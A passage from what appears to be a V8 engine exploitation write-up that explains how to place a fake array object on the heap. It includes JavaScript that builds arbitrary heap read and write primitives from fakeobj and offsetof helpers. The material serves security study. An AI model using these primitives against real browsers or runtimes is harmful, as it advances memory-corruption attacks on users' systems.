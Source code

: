 How do we position the fake object? For example, let's declare an array with 4 elements and `%DebugPrint` it:

![](11.png)

- array: `0xe8300040329`
- elements: `0x0e8300040301`

We notice that the difference between the array address and the `elements` address is always `0x28`, and `elements`
always comes before the array itself. 

Let's dump the elements:

![](12.png)

The address of the first element is `0xe8300040308`, so `0x20` before the array address. Let's also dump the array's
structure again:

![](13.png)

If we position a fake object at `&elements[0]`, to replicate a valid double array we need the first element to be
`map` + `properties` (we do not even use `properties`, can be 0), then the second element to be the target address 
(in the low part), then `0x00000008` in the high part (length * 2? maybe?). Remember that due to pointer compression, 
two pointers (32-bit) make up a double (64-bit).

We can use this method to pinpoint a fake object and use the `elements` to read and write anywhere on the `v8` heap.
The offset of the map is taken via `%DebugPrint`.

```js
const arr = [1.1, 1.2, 1.3, 1.4];
const arrAddr = offsetof(arr);
%DebugPrint(arr);
const arrMap = 0x1cb86dn;
console.log(`Obj address: 0x${arrAddr.toString(16)}`);
console.log(`Obj map: 0x${arrMap.toString(16)}`);

const arbArr = [itof(arrMap), 1.2, 1.3, 1.4];

function setupHeapRW(addr) {
    arbArr[1] = itof((0x00000008n << 32n) | (addr - 8n));
    const fakeTarget = offsetof(arbArr) - 0x20n;
    return fakeobj(fakeTarget);
}

function heapArbRead(addr) {
    const fake = setupHeapRW(addr);
    return ftoi(fake[0]);
}

function heapArbWrite(addr, value) {
    const fake = setupHeapRW(addr);
    fake[0] = itof(value);
}
```
